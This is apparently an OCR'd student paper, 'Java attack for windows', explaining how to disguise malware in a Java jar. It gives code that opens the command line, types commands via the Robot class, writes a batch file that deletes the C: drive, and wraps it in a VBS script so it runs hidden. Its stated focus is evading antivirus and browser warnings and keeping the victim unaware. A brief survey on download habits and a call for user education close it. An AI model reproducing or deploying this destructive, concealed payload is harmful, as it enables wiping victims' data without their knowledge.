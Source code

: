 ### Data Rain

# Java attack for windows

Kartik Arora
*The author is not responsible for the use of code or other knowledge in this document. *

# Objective

To prove how a virus can be disguised in a simple application made in Java, and how people would
unknowingly download such files which could harm their computers.

# Focus

Proving that java can be used for malicious purposes without being detected by the systems anti-
virus.

- Not being detected as a virus by browsers
- Creating a virus file on a victims’ computer
- Running the virus file without the victim noticing
- Disguising the file so that the victim doesn’t notice


1. Starting the Command Line through Java
    To open the virus, we would be needing control to the command line. Once we have
    control of the command line, we have access to most of the average users files and
    data.

```
Runtime run = Runtime.getRuntime();
run.exec(new String[] {"cmd", "/K", "Start"});
```
```
The code above is used to start the command line when the jar file is executed. To
delay this process, the thread can be put to sleep using the code :
```
```
*Thread.sleep(*Time in seconds*);
```
2. Running commands in the command line
    Now that we have access to the command line, we need to be able to run commands
    in it. To achieve this, we will be using the Robot class provided by java.
    What the Robot class does is simulate the hardware of the victims computer. We
    can use this to type in the commands we would like to run.

```
ControlManager ctr = new ControlManager();
ctr.type("hider.vbs & exit");
```
```
This would run the .vbs file created ahead.
“ControlManager” is a class made by me to use the “Robot” class to type in a given
string to the Command Line.
```
3. Creating the virus
    We would now create a virus that we would like to execute. It is fairly simple to
    make a virus as a .bat file. To create the virus, we use the PrintStream provided by
    Java, to create this file.

```
PrintStream bash = new PrintStream(new File("vs.bat"));
bash.println(@echo off\nDel C:\*.*/y);
```
```
The code above would create a file called “vs.bat” file in the directory the victim
has downloaded the original file in, and would delete the victims “C:” drive when
executed.
```
4. Hiding the virus while it runs


```
Every time a .bat file is run, it leaves the command line window open while
executing. This would alert the victim, that there is something wrong. To hide our
virus while it executes, we would have to create a .VBS file.
```
```
PrintStream vb = new PrintStream(new File("hider.VBS"));
```
```
vb.println("Set WshShell = CreateObject(\"WScript.Shell\" )+
```
```
\nWshShell.Run chr(34) & \"vs.bat\" & Chr(34), 0 \nSet WshShell = Nothing ");
```
```
vb.close();
```
```
This code above would create a file called “hider.VBS”, which wen executed would
run the “vs.bat” file without keeping the command line open.
```
# Survey

```
We gave our subjects a situation, where they are working on a project with a peer and their
peer sends them a file saying it’s related to the project.
```
```
We asked them if they would download the file if :
```
- It's name is project.exe, and their browser gives them no warning?
- It's name is project.exe, and their browser gives them a warning that it might be
    harmful?
- It's name is project.Jar, and their browser gives them no warning?
- It's name is project.Jar, and their browser gives them a warning that it might be
    harmful?
- It's name is project.doc, and their browser gives them a warning that it might be
    harmful?
- It's name is project.doc, and their browser gives them no warning?
- It's name is project.bat, and their browser gives them no warning?
- It's name is project.bat, and their browser gives them a warning that it might be
    harmful?


## Conclusion

As I have just shown, viruses can be created using java. These viruses aren’t limited to .bat files,
and can be used as ransomware, Trojans, or any other sort of file that browsers and anti-viruses
usually block. People now are conscious while downloading files such as .exe files and .bat files,
but people usually feel that .jar files are safe to run on their computers.

As the popularity of Java programs increases, so does the threat of such viruses and the average
user of a computer would not know how to detect or prevent these files from running. The security
risk this possesses is immense and people need to be educated regarding such files.

## Bibliography

https://superuser.com/questions/233348/how-do-i-create-a-windows-batch-file-that-does-not-
show-the-command-prompt-when

https://docs.oracle.com/javase/7/docs/api/java/awt/Robot.html

https://stackoverflow.com/questions/4688123/how-to-open-the-command-prompt-and-insert-
commands-using-java
